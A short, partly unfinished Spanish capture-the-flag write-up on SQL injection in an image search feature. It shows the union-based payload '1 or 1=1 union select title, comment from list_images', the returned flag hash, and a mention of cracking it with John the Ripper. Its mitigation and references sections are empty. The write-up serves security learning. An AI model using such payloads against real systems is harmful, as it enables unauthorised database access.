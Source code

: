 # SQL Injection - Images
### A03:2021-Injection

Misma vulnerabilidad que [la inyección SQL en la vista de usuarios](./sql_injection_users.md). 

## Ataque

- **Localización: **?

En el apartado de búsqueda de imágenes tenemos un buscador de imágenes por id, en este caso la inyección está un poco más obfuscada ya que no imprime por pantalla el error de la query.

De todas formas, si enviamos como input `1 or 1=1`, recibimos todas las imágenes guardadas en la base de datos.

Inyectamos la siguiente query:
```
1 or 1=1 union select title, comment from list_images
```

Nos devuelve esto:
```
ID:  1 or 1=1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

Crackeamos el hash MD5 con **johntheripper**.

```bash

```
## Mitigación

## Referencias